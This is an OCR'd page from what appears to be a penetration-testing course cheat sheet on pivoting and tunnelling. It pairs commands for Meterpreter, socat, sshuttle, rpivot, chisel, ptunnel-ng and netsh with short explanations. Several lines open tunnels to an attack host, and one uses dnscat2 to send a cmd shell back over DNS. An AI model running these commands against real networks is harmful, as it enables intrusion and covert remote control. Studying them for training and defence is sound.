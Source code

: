 |xfreerdp /v:localhost:3300 /u:victor /p:pass@123|Uses xfreerdp to connect to a remote host through localhost:3300 using a set of credentials. Port forwarding rules must be in place for this to work properly.|
|netstat -antp|Used to display all (-a) active network connections with associated process IDs. -t displays only TCP connections.-n displays only numerical addresses. -p displays process IDs associated with each displayed connection.|
|meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>|Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on on port 8081 to the port 1234 listening on the IP address of the Attack Host.|
|meterpreter > bg|Meterpreter-based command used to run the selected metepreter session in the background. Similar to background a process in Linux|
|socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80|Uses Socat to listen on port 8080 and then to fork when the connection is received. It will then connect to the attack host on port 80.|
|socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443|Uses Socat to listen on port 8080 and then to fork when the connection is received. Then it will connect to the target host on port 8443.|
|plink -D 9050 ubuntu@<IPaddressofTarget>|Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host.|
|sudo apt-get install sshuttle|Uses apt-get to install the tool sshuttle.|
|sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v|Runs sshuttle, connects to the target host, and creates a route to the 172.16.5.0 network so traffic can pass from the attack host to hosts on the internal network (172.16.5.0).|
|sudo git clone [https://github.com/klsecservices/rpivot.git](https://github.com/klsecservices/rpivot.git)|Clones the rpivot project GitHub repository.|
|sudo apt-get install python2.7|Uses apt-get to install python2.7.|
|python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0|Used to run the rpivot server (server.py) on proxy port 9050, server port 9999 and listening on any IP address (0.0.0.0).|
|scp -r rpivot ubuntu@<IPaddressOfTarget>|Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target.|
|python2.7 client.py --server-ip 10.10.14.18 --server-port 9999|Used to run the rpivot client (client.py) to connect to the specified rpivot server on the appropriate port.|
|proxychains firefox-esr <IPaddressofTargetWebServer>:80|Opens firefox with Proxychains and sends the web request through a SOCKS proxy server to the specified destination web server.|
|python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>|Use to run the rpivot client to connect to a web server that is using HTTP-Proxy with NTLM authentication.|
|netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25|Windows-based command that uses netsh.exe to configure a portproxy rule called v4tov4 that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389.|
|netsh.exe interface portproxy show v4tov4|Windows-based command used to view the configurations of a portproxy rule called v4tov4.|
|git clone [https://github.com/iagox86/dnscat2.git](https://github.com/iagox86/dnscat2.git)|Clones the dnscat2 project GitHub repository.|
|sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache|Used to start the dnscat2.rb server running on the specified IP address, port (53) & using the domain inlanefreight.local with the no-cache option enabled.|
|git clone [https://github.com/lukebaggett/dnscat2-powershell.git](https://github.com/lukebaggett/dnscat2-powershell.git)|Clones the dnscat2-powershell project Github repository.|
|Import-Module dnscat2.ps1|PowerShell command used to import the dnscat2.ps1 tool.|
|Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd|PowerShell command used to connect to a specified dnscat2 server using a IP address, domain name and preshared secret. The client will send back a shell connection to the server (-Exec cmd).|
|dnscat2> ?|Used to list dnscat2 options.|
|dnscat2> window -i 1|Used to interact with an established dnscat2 session.|
|./chisel server -v -p 1234 --socks5|Used to start a chisel server in verbose mode listening on port 1234 using SOCKS version 5.|
|./chisel client -v 10.129.202.64:1234 socks|Used to connect to a chisel server at the specified IP address & port using socks.|
|git clone [https://github.com/utoni/ptunnel-ng.git](https://github.com/utoni/ptunnel-ng.git)|Clones the ptunnel-ng project GitHub repository.|
|sudo ./autogen.sh|Used to run the autogen.sh shell script that will build the necessary ptunnel-ng files.|
|sudo ./ptunnel-ng -r10.129.202.64 -R22|Used to start the ptunnel-ng server on the specified IP address (-r) and corresponding port (-R22).|
|sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22|Used to connect to a specified ptunnel-ng server through local port 2222 (-l2222).|
|ssh -p2222 -lubuntu 127.0.0.1|SSH command used to connect to an SSH server through a local port. This can be used to tunnel SSH traffic through an ICMP tunnel.|
|regsvr32.exe SocksOverRDP-Plugin.dll|Windows-based command used to register the SocksOverRDP-PLugin.dll.|
|netstat -antb \|findstr 1080|Windows-based command used to list TCP network connections listening on port 1080.|
